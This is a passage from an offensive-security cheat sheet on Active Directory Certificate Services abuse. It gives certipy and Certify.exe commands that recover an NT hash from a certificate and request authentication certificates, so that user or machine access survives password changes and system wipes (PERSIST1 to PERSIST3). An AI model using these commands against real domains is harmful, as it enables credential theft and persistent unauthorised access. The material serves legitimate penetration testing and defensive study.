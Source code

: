 #### Linux

```bash
# Authenticate and recover the NT hash
certipy auth -pfx 'user.pfx' -no-save
```

## Account Persistence

### User account persistence - PERSIST1

With a user account control on a domain machine, if a template that allows **Client Authentication** is enabled, it is possible to request a certificate that will be valid for the lifetime specified in the template even if the user changes his password.

#### Windows

```powershell
Certify.exe request /ca:CA.contoso.local\CA /template:"Authentication Template"
```

#### Linux

If the user's password is known:

```bash
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Authentication Template'
```

### Machine account persistence - PERSIST2

With a machine account control, if a template that allows **Client Authentication** is enabled for the computers, it is possible to request a certificate that will be valid for the lifetime specified in the template even a password modification, a system wipe or whatever (if the machine hostname remains the same).

#### Windows

```powershell
Certify.exe request /ca:CA.contoso.local\CA /template:"Authentication Template" /machine
```

#### Linux

If the machine's hash is known:

```bash
certipy req -u 'machine@contoso.local' -hashes ':<hash_NT>' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -template 'Authentication Template'
```

### Account persistence via Certificate Renewal - PERSIST3

The **renewal period** of a template indicates the timeframe before the certificate expiration where the user can manually renew his certificate.
